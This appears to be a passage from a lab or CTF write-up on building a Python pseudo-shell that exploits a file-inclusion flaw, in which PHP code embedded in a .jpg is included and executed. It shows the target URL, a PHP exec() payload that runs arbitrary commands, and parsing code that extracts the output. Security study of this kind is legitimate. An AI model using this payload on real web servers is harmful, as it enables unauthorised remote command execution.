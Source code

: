 ## Adapting the Shell

What I originally set out to do was done, but I did
still want to adapt the shell to exploit the second vuln
I'd found where you can include a .jpg file and execute
the code within. This was a little more complicated as
the GET also returned the header and footer.

First the image url had to be updated.

    :::python
    image_url= 'http://192.168.1.20/pictures/page.php?type=pictures/boop.jpg'

Then, around the actual command execution including the
head trick to get the whole output, ^START^ and ^END^ were
echo'd before and after the command was run respectively.

    :::python
    '<?php echo("^START^"); echo exec("' + cmd + ' | head -n ' + str(i) + '");echo("^END^");?>',

Then a little function to filter out everything outwith
the tags including the tags themselves was made.

    :::python
    def parse(text):
        return text[text.find('^START^')+7:text.find('^END^')]
	
Finally, the exact same code could be used for printing
but just with the filter being applied.

    :::python
    if parse(get.text) != old_get:
        print(parse(get.text))

And now we have a fully functioning shell using
the second vulnerability.

![Second shell in use](images/fake-shell-with-python-requests/shell2.png)
